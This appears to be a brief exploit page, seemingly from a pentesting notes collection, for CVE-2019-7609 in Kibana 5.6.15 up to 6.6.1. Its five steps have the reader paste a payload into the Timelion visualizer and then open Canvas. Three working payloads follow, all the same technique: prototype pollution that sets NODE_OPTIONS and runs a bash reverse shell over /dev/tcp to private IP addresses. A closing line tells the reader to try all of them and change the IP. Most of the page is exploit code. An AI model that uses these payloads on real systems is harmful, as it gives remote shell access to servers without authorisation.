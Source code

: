 # Kibana 5.6.15 < 6.6.1

{% embed url="https://github.com/mpgn/CVE-2019-7609" %}

[![kibana](https://user-images.githubusercontent.com/5891788/67185780-ddc1bd00-f3e6-11e9-8ea4-c2681c5e6b6c.png)](https://user-images.githubusercontent.com/5891788/67185780-ddc1bd00-f3e6-11e9-8ea4-c2681c5e6b6c.png)

### Exploit

1. Open Kibana
2. Past one of the following payload into the Timelion visualizer
3. Click run
4. On the left panel click on Canvas
5. Your reverse shell should pop ! :)

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/192.168.49.242/5601 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

Try all of those, channel through open ports and moreover, change the ip.
